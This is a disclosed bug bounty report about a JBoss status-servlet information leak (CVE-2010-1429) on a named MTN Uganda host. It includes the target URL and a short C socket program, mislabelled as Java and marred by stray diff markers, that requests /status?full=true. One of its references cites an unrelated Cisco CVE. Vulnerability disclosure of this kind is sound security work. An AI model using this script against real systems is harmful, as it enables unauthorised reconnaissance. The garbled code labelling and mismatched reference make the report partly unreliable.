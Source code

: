 # CVE-2010-1429 JBoss Insecure Storage of Sensitive Information on ips.mtn.co.ug

## Report Details
- **Report ID**: 2375659
- **URL**: https://hackerone.com/reports/2375659
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-02-15T20:52:36.605Z
- **Disclosed**: 2024-08-30T16:28:31.786Z

## Reporter
- **Username**: deb0con
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
Red Hat JBoss Enterprise Application Platform (aka JBoss EAP or JBEAP) 4.2 before 4.2.0.CP09 and 4.3 before 4.3.0.CP08 allows remote attackers to obtain sensitive information about "deployed web contexts" via a request to the status servlet, as demonstrated by a full=true query string. this issue exists because of a CVE-2008-3273 regression. by requesting the Status param and sitting its value to true, Jobss will print a sensitive information such as Memory used/Total Memory / Client IP address. 



## Proof of concept
  1. Navigate intercept / visit hostserver on https://h30f.n1.ips.mtn.co.ug/status?full=true
  1. You can see on the page is sensitive has exposed
  1. Bellow of vulnerable code

```java
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <netinet/tcp.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netdb.h>
 
 
int socket_connect(char *host, in_port_t port){
    struct hostent *hp;
    struct sockaddr_in addr;
    int on = 1, sock;
     
    if((hp = gethostbyname(host)) == NULL){
        herror("gethostbyname");
        exit(1);
    }
    bcopy(hp->h_addr, &addr.sin_addr, hp->h_length);
    addr.sin_port = htons(port);
    addr.sin_family = AF_INET;
    sock = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);
    setsockopt(sock, IPPROTO_TCP, TCP_NODELAY, (const char *)&on, sizeof(int));
     
    if(sock == -1){
        perror("setsockopt");
        exit(1);
    }
     
    if(connect(sock, (struct sockaddr *)&addr, sizeof(struct sockaddr_in)) == -1){
        perror("connect");
        exit(1);
         
    }
    return sock;
}
 
- #define BUFFER_SIZE 1024
 
int main(int argc, char *argv[]){
    int fd;
    char buffer[BUFFER_SIZE];
     
    if(argc < 3){
-        fprintf(stderr, "Usage: %s <hostname> <port>\n", argv[0]);
        exit(1);
    }
     
    fd = socket_connect(argv[1], atoi(argv[2]));
+    write(fd, "GET /status?full=true\r\n", strlen("GET /status?full=true\r\n")); // write(fd, char[]*, len);
    while(read(fd, buffer, BUFFER_SIZE - 1) != 0){
         fprintf(stderr, "%s", buffer);
    }
 
    shutdown(fd, SHUT_RDWR);
    close(fd);
    return 0;
}
```

## Supporting Material/References:
The JBoss Enterprise Application Platform 4.2.0.CP03 and 4.3.0.CP01 updates for Red Hat Enterprise Linux 4 and 5 fixed an issue (CVE-2008-3273) where unauthenticated users were able to access the status servlet; however, a bug fix included in the 4.2.0.CP06 and 4.3.0.CP04 updates re-introduced the issue. A remote attacker could use this flaw to acquire details about deployed web contexts.

  * https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20180606-asaftd
  * https://nvd.nist.gov/vuln/detail/CVE-2018-0296
  * https://hackerone.com/reports/378698

## Impact

Red Hat JBoss Enterprise Application Platform could allow a remote attacker to obtain sensitive information, caused by improper restrictions on the status servlet. An attacker could exploit this vulnerability to obtain details about deployed Web contexts and other sensitive information.
https://github.com/advisories/GHSA-x26p-67q3-4mfx

## Attachments
No attachments
